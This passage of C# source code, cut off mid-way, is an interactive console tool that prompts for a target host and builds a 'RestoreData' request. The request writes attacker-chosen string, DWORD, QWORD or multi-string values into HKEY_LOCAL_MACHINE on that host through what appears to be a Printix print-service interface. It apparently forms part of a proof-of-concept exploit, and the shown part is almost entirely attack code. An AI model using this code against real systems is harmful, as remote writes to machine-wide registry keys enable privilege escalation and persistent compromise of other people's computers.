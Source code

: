            //Incase the Ping request is sent though, get its needed data.
            case (2):
                Console.WriteLine("\n What Host Address?  (DNS Names Or IP)\n");
                Console.Write("IP: ");
                host = Console.ReadLine();
                Console.WriteLine("Host address set to: " + host);

                data = "pingData";
                sessionName = "PingerRinger";
                break;

            //Incase the RegEdit request is sent though, get its needed data.
            case (49):
                Console.WriteLine("\n What Host Address?  (DNS Names Or IP)\n");
                Console.Write("IP: ");
                host = Console.ReadLine();
                Console.WriteLine("Host address set to: " + host);

                PersistentRegistryData persistentRegistryData = new PersistentRegistryData();
                persistentRegistryData.cmd = PersistentRegistryCmds.RestoreData;
                persistentRegistryData.VDIType = 12; //(int)DefaultValues.VDIType;
                                                     //persistentRegistryData.path = "printix\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName";
                Console.WriteLine("\n What Node starting from \\\\Local-Machine\\ would you like to select? \n");
                Console.WriteLine("Example: HKEY_LOCAL_MACHINE\\SOFTWARE\\Intel\\HeciServer\\das\\SocketServiceName\n");
                Console.WriteLine("You can only change values in HKEY_LOCAL_MACHINE");
                Console.Write("Registry Node: ");
                persistentRegistryData.path = "" + Console.ReadLine().Replace("HKEY_LOCAL_MACHINE","printix");
                Console.WriteLine("Full Address Set To:  " + persistentRegistryData.path);

                //persistentRegistryData.registryData = new byte[2];
                //byte[] loader = selectDataType("Intel(R) Capability Licensing stuffidkreally", RegistryValueKind.String);

                Console.WriteLine("\n What Data type are you using? \n1. String 2. Dword  3. Qword 4. Multi String  \n");
                Console.Write("Type:  ");
                int dataF = int.Parse(Console.ReadLine());
                Console.WriteLine("Set Data to: " + dataF);

                Console.WriteLine("\n What value is your type?  \n");
                Console.Write("Value:  ");
                string dataB = Console.ReadLine();
                Console.WriteLine("Set Data to: " + dataF);

                byte[] loader = null;
                List<byte> byteContainer = new List<byte>();
                //Dword = 4
                //SET THIS NUMBER TO THE TYPE OF DATA YOU ARE USING! (CHECK ABOVE FUNCITON selectDataType()!)

                switch (dataF)
                {
                    case (1):

                        loader = selectDataType(dataB, RegistryValueKind.String);
                        byteContainer.Add(1);
                        break;
                    case (2):
                        loader = selectDataType(int.Parse(dataB), RegistryValueKind.DWord);
                        byteContainer.Add(4);
                        break;
                    case (3):
                        loader = selectDataType(long.Parse(dataB), RegistryValueKind.QWord);
                        byteContainer.Add(11);
                        break;
                    case (4):
                        loader = selectDataType(dataB.Split('%'), RegistryValueKind.MultiString);
                        byteContainer.Add(7);